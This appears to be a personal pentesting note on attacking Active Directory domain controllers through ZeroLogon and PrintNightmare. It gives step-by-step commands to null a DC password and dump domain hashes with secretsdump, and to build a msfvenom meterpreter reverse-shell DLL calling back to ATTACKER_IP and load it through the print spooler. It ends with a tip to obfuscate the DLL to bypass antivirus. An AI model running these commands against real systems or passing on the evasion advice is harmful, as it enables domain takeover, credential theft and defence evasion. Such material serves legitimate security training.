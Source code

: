 There are new and recent vulnerabilities in Active Directory such as:
- ZeroLogon (if not executed in the right way can destroy the domain)
- PrintNightmare
- Sam the Admin

It has sense to check for them in the environment.

These vulnerbilities are very severe and can be dangerous for the domain.



# Abusing ZeroLogon
This type of attack can set the domain controller password to `null` and give then completely access to it.

==**But if we don't restore the password we will destroy the domain.**==

The attack is based on a problem on the cryptography and it is very complex.



First of all we need the exploit that can be found here [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

Another important tool we need to use to understand if the domain controller is vulnerable to this attack is [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

## Step 1 : run the checker
All we need to do is to run the tester with the domain controller name and the IP:
```bash
python3 zerologon_checker.py DOMAIN_C_NAME D_C_IP
```
- ![[Pasted image 20241221154211.png]]

This tells us if it is vulnerable. In general we can stop here since the attack is very dangerous.


## Step 2 : run the attack
Now we can run the attack in this way:
```bash
python3 cve-2020-1472-exploit.py DOMAIN_C_NAME DOMAIN_C_NAME
```
- ![[Pasted image 20241221154456.png]]


At this point we cna use `secretsdump` to see if worked.
```bash 
secretsdump.py --just-dc DOMAIN/DOMAIN_C_NAME\$@D_C_IP
```
- we just need to push `enter` and we are in
- ![[Pasted image 20241221154658.png]]


So we have all the infomration now and we are in.


## Step 3 : restore the machine
At this point we get the administrator hash (the last part) from the results of the command `secretsdump` and we run:
```bash
secretsdump.py administrator@DOMAIN_C_IP -hashes ADMIN_HASH
```
- ![[Pasted image 20241221154927.png]]


From here we need to get the `plain_password_hex` and use it to restore the password:
- ![[Pasted image 20241221155036.png]]


At this point we have to run the `restorepassword` tool contained in the folder:
```bash
python3 restorepassword.py DOMAIN/DC_NAME@DC_NAME -target-ip DC_IP -hexpass HEX_PASS
```
- ![[Pasted image 20241221155230.png]]



# PrintNightmare attack
This attack takes advatage of the printer spooler (used to add printers and so on).
The problem is that it is run with privilege on the system.

So this attacks allows to execute code in a privilege mode.

We need to use the tool [[https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)]([https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675))
## Step 1 : check if vulnerable
To check if it is vulnerable to this CVE we have to run:
```bash
rpcdump.py @DOMAIN_C_IP | egrep 'MS-RPRN|MS-PAR'
```
- ![[Pasted image 20241221155739.png]]


If we see this print, it is vulnerable.

## Step 2 :  setup for the attack

First of all we need to install `impacket` (a specific version contianed in the tool):
```bash

pip3 uninstall impacket

git clone https://github.com/cube0x0/impacket

cd impacket

python3 ./setup.py install

```


## Step 3 : use msfvenom to create a shell code to insert in a dll

For example we create a remote shell:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f dll > shell.dll
```
- ![[Pasted image 20241221160423.png]]

At this point we run a listener on msfconsole:
```bash
msfconsole

use multi/handler

set payload windows/x64/meterpreter/reverse_tcp

set lport PORT_USED_IN_THE_DLL

set lhost ATTACKER_IP

run
```


Perfect, now we need to setup a fileshare, in order to shell the `shell.dll` so we can do:
```bash
cd impacket

smbserver.py share `pwd`-smb2support

```


## Step 3 : run the attack
To run the attack we can just do:
```bash
python3 CVE-2021-1675.py DOMAIN/unsername:PASSWORD@DC_IP '\\ATTACKER_IP\share\shell.dll'
```
- ![[Pasted image 20241221160928.png]]

If we have an error we need to run the `smbserver` as smb2support. It would be:
- ![[Pasted image 20241221161149.png]]

GENERALLY ANTIVIRUS WILL BLOCK US!

If not we could execute commands:
- ![[Pasted image 20241221161309.png]]

<mark style="background: #FF5582A6;">We just need to obfuscate the dll file to bypass the antivirus.</mark>
- with `msfconsole` we can do it




